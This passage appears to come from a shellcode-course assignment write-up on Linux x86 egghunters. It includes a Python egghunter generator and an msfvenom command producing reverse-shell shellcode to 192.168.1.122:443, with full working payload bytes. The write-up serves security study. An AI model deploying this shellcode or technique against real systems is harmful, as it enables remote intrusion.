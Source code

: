 ```python

if not len(options.egg) == 8:
    print("Invalid egg size")
    exit(1)

egghunter = (
    "\\x31\\xd2\\x66\\x81\\xca\\xff\\x0f\\x42\\x8d\\x5a\\x04\\x6a\\x21\\x58\\xcd\\x80\\x3c\\xf2\\x74\\xee\\xb8"
    + to_hex(options.egg)
    + "\\x89\\xd7\\xaf\\x75\\xe9\\xaf\\x75\\xe6\\xff\\xe7")

payload = (to_hex(options.egg) + to_hex(options.egg) + options.payload)

print("\nEgghunter = \"" + egghunter + "\"")
print("Payload = \"" + payload + "\"\n")
```

### Generating payload to test script
```bash
root@sengen-kali2:~# msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.1.122 lport=443 -f python
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of python file: 342 bytes
buf =  ""
buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
buf += "\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0"
buf += "\xa8\x01\x7a\x68\x02\x00\x01\xbb\x89\xe1\xb0\x66\x50"
buf += "\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73"
buf += "\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0"
buf += "\x0b\xcd\x80"
```

```bash
[sengen@manjaro-x86 assignment3]$ python create_egg_hunter.py -e 90509050 -p "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x01\x7a\x68\x02\x00\x01\xbb\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"

Egghunter = "\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"
Payload = "\x90\x50\x90\x50\x90\x50\x90\x50\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x01\x7a\x68\x02\x00\x01\xbb\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"
```

### Testing in a C program
From the output of our script we can add it to a small C program to execute the egghunter shellcode.  Since the payload is also defined as a variable it will be stored somewhere in memory for the egghunter to find.

